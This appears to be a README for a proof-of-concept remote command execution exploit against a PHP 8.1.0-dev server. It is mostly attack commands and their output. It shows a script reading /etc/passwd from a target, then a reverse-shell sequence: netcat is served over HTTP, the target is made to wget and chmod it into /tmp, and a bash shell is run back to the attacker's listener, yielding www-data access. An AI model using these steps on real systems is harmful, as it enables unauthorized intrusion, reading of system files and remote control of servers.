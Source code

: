 # PHP-8.1.0-dev-poc
Remote Command Execution
## Usage
```bash
$ python2 cmd.py
Usage: cmd.py http://example.com whoami

python2 cmd.py http://192.168.0.22 'cat /etc/passwd'system("cat /etc/passwd") was sent successfully, response:
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologin[snip]opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/shstring(60) "opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/sh
```
## Reverse Shell 
In order to get a reverse shell you will need a netcat binary that allows the -e option. 
Copy /usr/bin/nc to the current directory and start up a web server: 
```bash
$ cp -r /usr/bin/nc .
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

python2 cmd.py http://192.168.0.22 'wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc'
system("wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc") was sent successfully, response:
/tmp/nc
string(7) "/tmp/nc
```
# The Web Server: 
```bash
192.168.0.22 - - [21/May/2021 07:42:07] "GET /nc HTTP/1.1" 200
```
# Execution 
```bash
python2 cmd.py http://192.168.0.22 '/tmp/nc -e /bin/bash 192.168.0.2 1000'

nc -lvp 1000
listening on [any] 1000 ...
connect to [192.168.0.2] from localhost [192.168.0.22] 
whoami
www-data```
